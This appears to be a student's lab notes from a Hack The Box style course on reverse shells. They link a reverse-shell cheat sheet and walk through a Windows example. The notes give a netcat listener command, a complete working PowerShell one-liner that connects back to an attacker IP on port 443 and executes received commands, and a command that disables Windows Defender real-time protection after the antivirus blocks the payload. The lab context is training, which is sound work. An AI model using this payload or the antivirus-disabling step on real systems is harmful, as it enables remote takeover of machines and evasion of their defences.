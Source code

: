 The attack box will have a listener running, and the target will initiate the connection.

Methods of connecting from the target host are:

- Unrestricted File Upload
- Command Injection

This is all to force the target host to initiate a connection with our target box.

Below is a list of reverse shells that we can utilize based on what attack surface we are presented with:

[https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#windows-staged-reverse-tcp](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#windows-staged-reverse-tcp)

**Hands-on with a Simple Reverse Shell in Windows:**

1. On our attack box we are going to start our listener:
    
    1. We are establishing a connection over a common port (443). The reason for that is because it is common for this port to not be blocked. However, if a firewall has deep packet inspection then it may notice the reverse shell.
    
    ```bash
    realCustampin@htb[/htb]$ sudo nc -lvnp 443
    Listening on 0.0.0.0 443
    ```
    
2. On the Windows target, let’s copy and paste the following powershell commands: 1.
    
    `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
    
3. We may get a Windows Antivirus error, we can get past this for right now by just turning it off: 1.
    
    ```bash
    At line:1 char:1
    + $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    This script contains malicious content and has been blocked by your antivirus software.
        + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
        + FullyQualifiedErrorId : ScriptContainedMaliciousContent
    ```
    
    `PS C:\\Users\\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true`